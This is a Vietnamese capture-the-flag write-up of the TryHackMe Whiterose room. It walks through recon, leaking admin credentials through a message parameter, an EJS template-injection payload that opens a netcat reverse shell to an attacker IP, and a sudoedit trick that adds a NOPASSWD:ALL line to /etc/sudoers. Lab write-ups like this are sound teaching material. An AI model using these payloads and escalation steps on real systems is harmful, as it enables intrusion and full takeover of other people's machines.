


# [THM] Whiterose write-up

- IP: 10.10.238.251

## Recon

Sử dụng nmap để dò quét các cổng và dịch vụ đang mở
> nmap -sT -sV -sC -T4 10.10.238.251


Có 2 port dịch vụ đang mở bao gồm
- Port 22 chạy dịch vụ SSH
- Port 80 chạy dịch vụ HTTP 

Truy cập port 80 ta thấy đã redirect sang `cyprusbank.thm` và không truy cập được



Ta thêm host này vào `/etc/hosts' thì giao diện web đã hiển thị như dưới 


Tiếp tục scan bằng ffuf để tìm thư mục ẩn 
> ffuf -u "http://cyprusbank.thm/FUZZ" -w /usr/share/seclists/Discovery/Web-Content/big.txt


Kết quả là không có thư mục nào vậy tiếp tục scan subdomain 
> ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://cyprusbank.thm/ -H "Host:FUZZ.cyprusbank.thm" -fw 1 -t 100 -mc 200,301,302

Có một số tham số ta chưa từng nhắc đến như
- -H: thay vì fuzz đường dẫn, ta fuzz giá trị của header Host. FUZZ là placeholder sẽ được thay bằng từng dòng trong wordlist
- -fw 1: loại bỏ các subdomain có 1 ký tự
- -t: chạy 100 thread đồng thời
- -mc 200,301,302: chỉ hiển thị kết quả có mã phản hồi HTTP 200 (OK), 301 (Moved Permanently), hoặc 302 (Found)


Ta truy cập vào subdomain `admin/cyprusbank.thm` nó redirect sang `admin/cyprusbank.thm/login` và có giao diện form login (cần thêm subdomain vào `/etc/hosts`)


Ta sẽ đăng nhập với tài khoản `Olivia Cortez:olivi8` mà đề bài đã cho 


Đã đăng nhập được vào dashboard nhưng trường phone đang bị ẩn và không thể thấy được số điện thoại của Tyrell Wellick

Sau khi khám phá nhận ra ở `/messages` có param `c=5` được truyền vào. Ta thử thay đổi giá trị của param `c` xem có điều gì xảy ra không


Thực hiện scan bằng công cụ burpsuite với chức năng intruder


Với param `c=0` ta nhận được username, password của admin `Gayle Bev` 


## Tyrell Wellick's phone number
Sau khi đăng nhập bằng tài khoản admin đã có thể xem tất cả thông tin bao gồm số điện thoại của Tyrell Wellick


## Exploit 
Khám phá và nhận ra `/setting` có thể mắc lỗ hổng XSS vì thông tin trong input được hiển thị trên giao diện người dùng khi save


 
Có vẻ đã có chút nhầm lẫn, thử post 1 vài param và nhận ra trang web sử dụng `EJS` là 1 template engine được nodejs sử dụng. Khi mà sử dụng template engine ta có thể nghĩ ngay tới việc trang web có thể gặp phải lỗ hổng `SSTI`


Tìm kiếm thông tin và nhận thấy có thể tận dụng `CVE-2022-29078` để khai thác có thể tham khảo [EJS, SSTI RCE](https://eslam.io/posts/ejs-server-side-template-injection-rce/)

Với payload và thực hiện thiết lập **netcat lisner** trên máy attacker ta đã có thể truy cập vào user shell

```
&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('busybox nc 10.21.113.26 1234 -e /bin/sh');s
```

Ta cùng làm rõ payload trên nhé. Với `EJS 3.1.6` vị trí lỗi `ejs/lib/ejs.js` trong hàm
```js
if (opts.outputFunctionName) {
  buf.push('function ' + opts.outputFunctionName + '(str) { __append(str); }');
}
```
``opts.outputFunctionName`` là string từ user, không kiểm tra định dạng truyền trực tiếp bất kẻ là chuỗi nào nên dẫn tới có thể injection code
Khi chạy đoạn payload trên thì code sẽ được thực thi như sau 
```js
function x;
process.mainModule.require('child_process').execSync('busybox nc 10.21.113.26 1234 -e /bin/sh');
function s(str) { __append(str); }
```
- function x; định nghĩa 1 function rỗng `x`, kết thúc sớm bằng `;`
- mainModule.require('child_process') gọi tới module **child_process**, thực thi reverse shell ⇒ **mã thực thi nguy hiểm được chèn vào giữa**
- ```execSync('busybox nc 10.21.113.26 1234 -e /bin/sh')``` tạo revershell (đã thực hiện thử với nc và bash đều không được, tới busybox thành công)
- `;` kết thúc lệnh
- ```function s(str) { __append(str); }``` Đảm bảo đoạn sau vẫn là mã JavaScript hợp lệ ⇒ tránh lỗi parse code


## user.txt


## Privilege escalation
Run `sudo -l` để check user hiện tại có quyền thực thi với quyền root mà không cần mật khẩu


Tìm kiếm và nhận thấy có thể leo thang đặc quyền dựa trên `sudoedit` với `CVE-2023-22809` [Sudoedit Privilege Escalation](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudoedit-privilege-escalation/)


```sh
web@cyprusbank:~$ export EDITOR="vim -- /etc/sudoers"
web@cyprusbank:~$ whoami
whoami
web
web@cyprusbank:~$ sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

Câu lệnh trên lợi dụng trick trong `EDITOR` để mở thêm `/etc/sudoers` khi chỉnh sửa file được phép (admin.cyprusbank.thm)


Hiện tại ta đang có shell của user `web` nên ta cần thêm `web ALL=(ALL) NOPASSWD:ALL` vào `/etc/sudoers` để cho phép user web thực hiện bất kì lệnh nào với quyền root mà không cần mật khẩu 

Sau đó truy cập root shell với câu lệnh `sudo su root` ta đã có root shell
## root.txt




**DONE**


